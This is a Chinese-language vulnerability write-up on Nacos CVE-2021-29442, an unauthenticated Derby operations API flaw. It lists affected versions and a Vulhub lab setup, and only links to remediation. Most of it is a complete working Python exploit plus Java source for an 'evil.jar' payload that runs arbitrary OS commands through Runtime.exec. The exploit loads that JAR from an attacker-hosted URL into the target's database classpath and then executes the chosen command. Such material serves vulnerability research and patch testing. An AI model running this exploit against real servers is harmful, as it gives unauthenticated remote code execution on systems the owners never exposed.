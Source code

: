 # Nacos 未授权接口命令执行漏洞 CVE-2021-29442

## 漏洞描述

Nacos 是一个设计用于动态服务发现、配置和服务管理的易于使用的平台。

在 Nacos 1.4.1 之前的版本中，一些 API 端点（如 `/nacos/v1/cs/ops/derby`）可以默认没有鉴权，可以被未经身份验证的用户公开访问。攻击者可以利用该漏洞执行任意 Derby SQL 语句和 Java 代码。

参考链接：

- https://github.com/advisories/GHSA-xv5h-v7jh-p2qh
- https://github.com/alibaba/nacos/issues/4463
- http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce
- https://nacos-group.github.io/blog/announcement-derby-ops-api/?source=news/
- https://nacos.io/zh-cn/docs/v2/guide/user/auth.html

## 漏洞影响

Nacos 未鉴权且使用 Derby 数据库作为内置数据源：

```
Nacos < 1.4.1
Nacos 2.3.2
Nacos 2.4.0
```

## 环境搭建

Vulhub 执行如下命令启动一个 Alibaba Nacos 1.4.0 服务器：

```
docker compose up -d  
```

服务器启动后，访问 `http://your-ip:8848/nacos/` 可以看到 Nacos 的默认登录页面。

![](images/Nacos%20未授权接口命令执行漏洞%20CVE-2021-29442/image-20240716174011999.png)

## 漏洞复现

将恶意 JAR 包 [evil.jar](https://github.com/vulhub/vulhub/blob/master/nacos/CVE-2021-29442/evil.jar) 上传到攻击者的 HTTP 服务器上，例如 `http://some-webserver/evil.jar`。

执行 [POC](poc.py)：

```
python poc.py -t http://your-ip:8848 -s http://some-webserver/evil.jar -c "id"  
```

`-t` 参数指定目标地址，`-s` 参数指定恶意 JAR 包的地址，`-c` 参数指定要执行的命令。

![](images/Nacos%20未授权接口命令执行漏洞%20CVE-2021-29442/image-20240716175547902.png)

## 漏洞 POC

poc.py

```python
import random
import sys
import requests
from urllib.parse import urljoin
import argparse


def exploit(target, command, service):  
    removal_url = urljoin(target, '/nacos/v1/cs/ops/data/removal')
    derby_url = urljoin(target, '/nacos/v1/cs/ops/derby')
    for i in range(0, sys.maxsize):
        id = ''.join(random.sample('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ', 8))
        post_sql = f"""CALL sqlj.install_jar('{service}', 'NACOS.{id}', 0)
CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath', 'NACOS.{id}')
CREATE FUNCTION S_EXAMPLE_{id}( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'
"""
        get_sql = f"select * from (select count(*) as b, S_EXAMPLE_{id}('{command}') as a from config_info) tmp"
        files = {'file': post_sql}
        post_resp = requests.post(url=removal_url, files=files)
        post_json = post_resp.json()
        if post_json.get('message', None) is None and post_json.get('data', None) is not None:
            print(post_resp.text)
            get_resp = requests.get(url=derby_url, params={'sql': get_sql})
            print(get_resp.text)
            break


def main():
    parser = argparse.ArgumentParser(description='Exploit script for Nacos CVE-2021-29442')
    parser.add_argument('-t', '--target', required=True, help='Target URL')
    parser.add_argument('-c', '--command', required=True, help='Command to execute')
    parser.add_argument('-s', '--service', required=True, help='Service URL')
    
    args = parser.parse_args()
    
    exploit(args.target, args.command, args.service)

if __name__ == '__main__':
    main()
```

evil.jar

```
package test.poc;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.io.StringWriter;

public class Example {
  public static void main(String[] args) {
    String ret = exec("ipconfig");
    System.out.println(ret);
  }
  
  public static String exec(String cmd) {
    StringBuffer bf = new StringBuffer();
    try {
      String charset = "utf-8";
      String osName = System.getProperty("os.name");
      if (osName != null && osName.startsWith("Windows"))
        charset = "gbk"; 
      Process p = Runtime.getRuntime().exec(cmd);
      InputStream fis = p.getInputStream();
      InputStreamReader isr = new InputStreamReader(fis, charset);
      BufferedReader br = new BufferedReader(isr);
      String line = null;
      while ((line = br.readLine()) != null)
        bf.append(line); 
    } catch (Exception e) {
      StringWriter writer = new StringWriter();
      PrintWriter printer = new PrintWriter(writer);
      e.printStackTrace(printer);
      try {
        writer.close();
        printer.close();
      } catch (IOException iOException) {}
      return "ERROR:" + writer.toString();
    } 
    return bf.toString();
  }
}
```

## 漏洞修复

- https://nacos-group.github.io/blog/announcement-derby-ops-api/?source=news/ 关于 Nacos Derby 数据库运维接口 `/nacos/v1/cs/ops/derby` 相关问题公告
- https://nacos.io/zh-cn/docs/v2/guide/user/auth.html Nacos 鉴权文档
